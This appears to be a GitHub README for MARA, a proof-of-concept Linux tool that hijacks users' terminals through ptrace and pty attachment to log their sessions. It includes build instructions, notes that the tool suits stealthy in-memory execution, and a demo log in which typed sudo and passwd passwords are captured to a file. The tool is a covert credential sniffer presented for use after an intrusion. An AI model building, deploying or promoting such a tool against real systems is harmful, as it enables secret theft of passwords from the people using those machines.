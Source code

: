 # MARA

MARA is a proof of concept tool waiting for shell execution with associated pty/tty using netlink socket and sniff user's terminal, as a static binary it works well with in memory execution using DEGU.

Concept behind this project comes from emptymonkey method of mitm a terminal ( look at https://github.com/emptymonkey/shelljack project ) to intercept and log user session (including ssh session passwd sudo su passwords etc.)

To build it you need musl-gcc with musl kernel-headers for netlink objects

```
$ make
make -C ptrace_do
make[1]: Entering directory '/home/user/work/mara/ptrace_do'
make[1]: Nothing to be done for 'all'.
make[1]: Leaving directory '/home/user/work/mara/ptrace_do'
make -C ctty
make[1]: Entering directory '/home/user/work/mara/ctty'
make[1]: Nothing to be done for 'all'.
make[1]: Leaving directory '/home/user/work/mara/ctty'
musl-gcc  -I. -Ictty -Iptrace_do -Wall -Os -s -static main.c  log.c shelljack.c -o mara ptrace_do/libptrace_do.a ctty/libctty.a
$ sudo ./mara
(151814) 15:09:05.486343: main.c            jack              #34  	handle pid=151820 exe=/usr/bin/bash stdin=/proc/151820/fd/0 pty=/dev/pts/3 user=user
^C
$ sudo cat /tmp/user_151820_1659445745 
15:09 user@x03:~$ export LC_ALL=C
15:09 user@x03:~$ echo sniffed term ?
sniffed term ?
15:09 user@x03:~$ sudo su
[sudo] password for user: sniffed sudo ?
Sorry, try again.
[sudo] password for user: 
Sorry, try again.
[sudo] password for user: 
sudo: 3 incorrect password attempts
15:09 user@x03:~$ passwd 
Changing password for user.
Current password: sniffed passw ?
passwd: Authentication failure
passwd: password unchanged
15:09 user@x03:~$ ssh localhost -l sniffed 
sniffed@localhost: Permission denied (publickey).
15:09 user@x03:~$ 
exit
$ 

```

 

